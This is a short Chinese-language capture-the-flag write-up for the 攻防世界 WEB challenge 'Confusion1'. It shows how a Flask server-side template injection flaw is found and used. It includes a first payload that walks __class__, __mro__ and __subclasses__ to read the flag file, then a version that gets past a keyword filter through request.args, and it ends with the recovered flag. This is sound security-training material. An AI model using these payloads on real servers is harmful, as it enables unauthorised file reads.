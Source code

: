 # 原创
：  【攻防世界WEB】难度四星12分进阶题：Confusion1

# 【攻防世界WEB】难度四星12分进阶题：Confusion1

## 三、Confusion1

> 

 

<h3>解题方法：</h3>
1、SSTI漏洞，构造payload


> 
<h3>过程：</h3>


 
大象        and        蛇（确实帅）
php+python想到了见过很多次的SSTI漏洞

<hr/>
先到处逛逛（这个里面都是一些信息）

login和register都报错
（但是这里一定是很重要的地方）

 
看robot.txt（没什么东西）


<hr/>
 考虑分析页面源码了
login.php中Ctrl+U查看页面源码
发现flag路径

 
<hr/>
分析有没有SSTI漏洞
{{1+2}}
被运算了，得出结果3

 
<hr/>
SSTI常用的注入
__class__() 返回对象的类
__base__()/__mro__() 返回类所继承的基类
__subclasses__() 返回继承类的所有子类
pyaload：
{{"".__class__.__mro__[2].__subclasses__()[40]("/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt").read()}}
被过滤了

 
<hr/>
构造payload
request 是 Flask 框架的一个全局对象 , 表示 " 当前请求的对象( flask.request ) "
request.args.key   
args是参数，key可以是内置函数
——————
payload：
{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?&amp;a=__class__&amp;b=__mro__&amp;c=__subclasses__&amp;d=read

cyberpeace{a92d9e29b89ab062c895ddc06f237cb6} 


---


---


---

